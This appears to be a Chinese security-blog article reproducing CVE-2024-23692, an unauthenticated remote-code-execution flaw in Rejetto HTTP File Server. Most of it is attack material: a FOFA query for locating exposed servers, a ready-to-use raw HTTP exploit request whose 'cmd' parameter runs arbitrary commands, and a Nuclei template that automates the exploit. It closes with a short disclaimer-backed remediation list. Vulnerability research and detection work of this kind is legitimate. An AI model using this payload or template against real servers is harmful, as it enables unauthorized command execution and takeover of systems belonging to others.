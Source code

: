 #  漏洞复现 | Rejetto HTTP 文件服务器未经身份验证的 RCE【附poc】   
原创 实战安全研究  实战安全研究   2024-06-13 20:18  
  
**免责声明**  
<table><tbody><tr><td valign="top" rowspan="5" colspan="1" style="word-break: break-all;"><strong style="font-family: system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;color: rgb(255, 0, 0);font-size: 14px;outline: 0px;visibility: visible;"><strong style="outline: 0px;color: rgb(62, 62, 62);letter-spacing: 0.544px;orphans: 4;text-align: left;visibility: visible;"><span style="outline: 0px;color: rgb(255, 0, 0);letter-spacing: 0.544px;visibility: visible;">本文仅用于技术学习和讨论。请勿使用本文所提供的内容及相关技术从事非法活动，由于传播、利用此文所提供的内容或工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号无关，本次测试仅供学习使用。如有内容争议或侵权，请及时私信我们！我们会立即删除并致歉。谢谢！</span></strong></strong></td></tr><tr></tr><tr></tr><tr></tr><tr></tr></tbody></table>  
**一、漏洞描述**  
  
Rejetto HTTP File Server（Rejetto HFS）是Rejetto公司的一款 HTTP 文件服务器。Rejetto HTTP File Server 2.3m及之前版本存在安全漏洞，该漏洞源于存在模板注入漏洞，  
被确定为CVE-2024-23692，该漏洞的CVSS评分为9.8。允许  
未经身份验证  
的恶意攻击者  
可以任意命令  
，  
进而控制服务器系统  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1a2ibc10eKFVDOttuTHyy9SDfXGByEkHB4tVbM1Bdn6fTiatAY1XC5LwyLFNoF3kAwAlLhE6sicib56Q/640?wx_fmt=png&from=appmsg "")  
## 二、网络测绘  
```
fofa：
app="HFS"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1a2ibc10eKFVDOttuTHyy9SDqH4w1icRNsG9vfwGUcqNX03PROTqDSOHYKznhv6Yzf64fhJmia9cARQ/640?wx_fmt=png&from=appmsg "")  
## 三、漏洞复现  
  
测试执行ipconfig命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1a2ibc10eKFVDOttuTHyy9SASzjaFzNDbD28xHfYcWMu4OQjGlkkPJZPkonXG65S0HFQWZPmuyMRw/640?wx_fmt=png&from=appmsg "")  
  
**四、漏洞检测poc**  
```
GET /?n=%0A&cmd=ipconfig&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: 0.0.0.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```  
  
****  
**五、Nuclei 检测POC**  
```
id: HFS_Rejetto_HTTP_RCE

info:
  name: HFS_Rejetto_HTTP_RCE
  author: hamal
  severity: high
  description: Rejetto HTTP 文件服务器未经身份验证的 RCE
  reference:
    - https://
  tags: 微信公众号（实战安全研究）

http:
  - raw:
      - |+
        GET /?n=%0A&cmd=ipconfig&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Connection: close
        Upgrade-Insecure-Requests: 1


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - Windows IP
      - type: status
        status:
          - 200

```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1a2ibc10eKFVDOttuTHyy9S0eEMhxuicxJuo07sia7SbLm32xQ4K5CRaLljibn4sQIwFLia8I8ibtYVM2A/640?wx_fmt=png&from=appmsg "")  
  
  
关注公众号：  
**实战安全研究**  
  
公众号回复"**Nuclei**  
" 获取往期Nuclei漏洞POC  
  
**六、漏洞修复**  
  
1、建议联系厂商打补丁或升级版本。  
  
2、增加Web应用防火墙防护。  
  
3、  
关闭互联网暴露面或接口设置访问权限。  
  
  
